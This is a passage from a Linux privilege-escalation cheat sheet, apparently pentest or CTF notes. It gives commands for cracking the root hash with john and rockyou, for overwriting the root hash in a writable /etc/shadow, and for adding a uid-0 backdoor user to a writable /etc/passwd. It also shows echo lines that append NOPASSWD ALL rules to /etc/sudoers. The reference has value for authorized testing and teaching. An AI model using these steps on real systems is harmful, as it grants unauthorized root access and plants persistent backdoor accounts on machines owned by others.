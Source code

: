 Save the root user (or someone you want to privilege escalate to) to a file and use `john` to crack it

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Finally, switch user with cracked password

```bash
su root
```

#### Writable /etc/shadow

Generate a new password:

```bash
mkpasswd -m sha-512 newpassword
```

Edit the /etc/shadow file and replace the root password hash. Finally, switch user with new password. Here is the empty password hash

```
root:$6$1.kHoCdgGLxINgw$TQbdEgrYcctS4/o7EKtmWaxwBoOHaeU2nK4B66Any.4ksSyb5FFedubBtSs.Rc9DkxD02ju7RfK/I0U8MXdb50:17298:0:99999:7:::
```

### Writable /etc/passwd

!!! info
The /etc/passwd file contains information about user accounts. It usually only readable.

Get /etc/passwd permissions

```bash
ls -l /etc/passwd
```

Generate a new password

```bash
openssl passwd newpassword
```

Then, copy the root user row, replace username with and the "x" field with the new password to create new root user. Here is a new user with username is `lithonn` and password is empty (empty not "empty")

```
lithonn:lF/bBdY9ikuzY:0:0:root:/root:/bin/bash
```

### Writable /etc/sudoers

```bash
echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers
```
